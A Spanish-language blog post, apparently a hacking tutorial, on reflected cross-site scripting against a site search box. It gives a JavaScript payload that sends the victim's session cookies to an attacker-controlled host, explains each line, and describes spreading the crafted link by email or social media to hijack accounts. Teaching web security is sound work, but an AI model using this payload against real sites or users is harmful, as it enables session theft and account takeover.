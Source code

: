 ```yaml
---
layout: post
title: Ataque XSS Reflejado
category: Hacking
comments: true
description: El ataque XSS Reflejado consiste que el atacante comparta un link creado a sus victimas para que estas lo ejecuten y por conseguir su sesion o control sobre su navegador. El vector de ataque XSS o Cross Site Scripting, es una de las vulnerabilidades más extendidas en las paginas web, según OWASP es la tercera en importancia en su TOP 10.
tags:
    - hijacking
    - hacker
    - owasp
    - xss  
---
```


El ataque XSS Reflejado consiste que el atacante comparta un link creado a sus victimas para que estas lo ejecuten y por conseguir su sesion o control sobre su navegador.

Según la Open Web Application Security Project (Owasp), es desde ya casi diez años, la vulnerabilidad numero tres, de su [top diez](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)){:target="_blank"}. 

## Para practicar

Te recomiendo que uses esta pagina web: [hackyourselffirst.troyhunt.com](http://hackyourselffirst.troyhunt.com){:target="_blank"}. Es una pagina vulnerable hecho a posta para poder probar todas las vulnerabilidades web de Owasp, esta creada por el hacker etico [Troy Hunt](https://www.troyhunt.com/){:target="_blank"}. 
Tiene varios cursos de hacking en [Pluralsight](https://app.pluralsight.com/library/){:target="_blank"} te recomiendo que te subscribas a Pluralsight y los hagas.

## Ejecutando el ataque

En este ataque conseguiremos robar las cookies de sesion del usuario que entre al enlace que hemos pasado. 

Por ejemplo en nuestra web *miejemplo.com* en el buscador, buscamos por lechugas, y como vimos antes lo que ejecutamos en el buscador se refleja en el html sin niguna defensa, es decir si escribieramos < i >lechugas</ i > saldria *lechugas*, por lo que buscamos la palabra "lechugas" en el codigo fuente de la aplicación.
Al hacerlo vemos que esta el termino en varios sitios, y uno de ellos esta en el javascript.

{% highlight html linenos %}

  $('#searchTerm').val('lechugas');


{% endhighlight %}

Asi que podriamos montar un ataque que nos diera las cookies de sesion y asi poder acceder a la cuenta del usuario. ver [¿Que es session hijacking?]({% post_url 2017-05-26-que-es-session-hijacking %})


Este seria nuestro payload o codigo malicioso que añadiriamos a la url para pasarselo a nuestra victima:


{% highlight html linenos %}

  '); var img = document.createElement("img");img.src="http://webdelosmalos.com/LogCookies?cookies="+document.cookie;document.body.appenchild(img);$('h2').text('todo ok');//

{% endhighlight %}

EL codigo explicado seria asi:

{% highlight html linenos %}

'); 
var img = document.createElement("img");
img.src="http://webdelosmalos.com/LogCookies?cookies="+document.cookie;
document.body.appenchild(img);
$('h2').text('todo ok');
//

{% endhighlight %}

__linea 1__ como en slq injection cerramos las comillas y parentesis de la busqueda original para injectar nuestro payload en el javascript

__linea 2__ creamos un elemento img (tag imagen de html) y lo guardamos en una variable.

__linea 3__ en elemento img creado anteriormente le añadimos la url, deberia ser una imagen cualquiera, pero es de nuestra web mala y en pasamos como parametro los datos de las cookies de la victima.

__linea 4__ añadimos nuestra imagen la body del html

__linea 5__ para que el empleado no sospeche añadimos un texto en donde deberia ir el texto de busqueda original.

__linea 6__ igual que en el sql injection, todo lo que vaya posterior a nuestro payload lo comentamos para que no nos afecte.

Y con esto, solo necesitariamos añadirlo a la url original y pasar en enlace por las redes sociales, por email... y que nuestra victima picara, y al momento tendriamos en nuestra web las cookies de sesion de la victima, ya podriamos entrar como ella.




